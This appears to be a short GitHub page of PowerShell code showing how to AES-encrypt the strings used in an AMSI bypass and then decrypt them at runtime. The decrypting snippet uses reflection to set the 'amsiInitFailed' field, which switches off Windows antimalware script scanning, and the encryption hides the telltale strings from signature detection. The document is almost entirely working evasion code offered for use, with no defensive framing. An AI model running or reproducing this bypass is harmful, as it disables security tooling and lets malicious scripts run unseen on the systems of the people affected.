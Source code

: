 ```powershell
$rng=New-Object "System.Security.Cryptography.RNGCryptoServiceProvider";$encKey=[System.Byte[]]::new(32);$rng.GetBytes($encKey);$initVector = [System.Byte[]]::new(16);$rng.GetBytes($initVector);$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=$encKey;$aes.IV=$initVector;$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$text='am'+'si'+'In'+'it'+'Fa'+'il'+'ed';$ptBytes=[System.Text.Encoding]::UTF8.GetBytes($text);$encryptor=$aes.CreateEncryptor();$ctBytes=$encryptor.TransformFinalBlock($ptBytes,0,$ptBytes.Length);[byte[]] $msg = $initVector + $ctBytes;$ct=[System.Convert]::ToBase64String($msg);$key=[System.Convert]::ToBase64String($encKey);Write-Output $key;Write-Output $ct;$aes.Dispose();$rng.Dispose();
EhV4nU6i9NioRnEEymuyCJH72rgEQZyiwVkeV0aGyfY=
wrUG7SKqAGsPFKXhwfG6LjJSAjc1VKDZnM8p4kvK/bk=
```
### Decrypting
To decrypt, need to set the Key and CT for each encrypted string
```powershell
$aes=New-Object "System.Security.Cryptography.AesCryptoServiceProvider";$aes.Key=[System.Convert]::FromBase64String("Cqao25t5gyuIKfpWciQbxgS+CfAufmcxqAHyCdLczrE=");$aes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$rctBytes=[System.Convert]::FromBase64String("3wfycXTLFIRbjpXisLIzm3o1AMANmut07q9UEFj57Ss=");$riv=$rctBytes[0..15];$aes.IV=$riv;$decryptor=$aes.CreateDecryptor();$rptBytes=$decryptor.TransformFinalBlock($rctBytes,16,$rctBytes.Length-16);$pt_text=[System.Text.Encoding]::UTF8.GetString($rptBytes);$aes.Key=[System.Convert]::FromBase64String("EhV4nU6i9NioRnEEymuyCJH72rgEQZyiwVkeV0aGyfY=");$rctBytes=[System.Convert]::FromBase64String("wrUG7SKqAGsPFKXhwfG6LjJSAjc1VKDZnM8p4kvK/bk=");$riv = $rctBytes[0..15];$aes.IV = $riv;$decryptor = $aes.CreateDecryptor();$rptBytes = $decryptor.TransformFinalBlock($rctBytes, 16, $rctBytes.Length - 16);$pt_text2=[System.Text.Encoding]::UTF8.GetString($rptBytes);[Ref].Assembly.GetType('System.Management.Automation.'+$pt_text).GetField($pt_text2,'NonPublic,Static').SetValue($null,$true)
```
Other cryptographic transformations can be applied instead of AES, but why do that when AES is just fine!
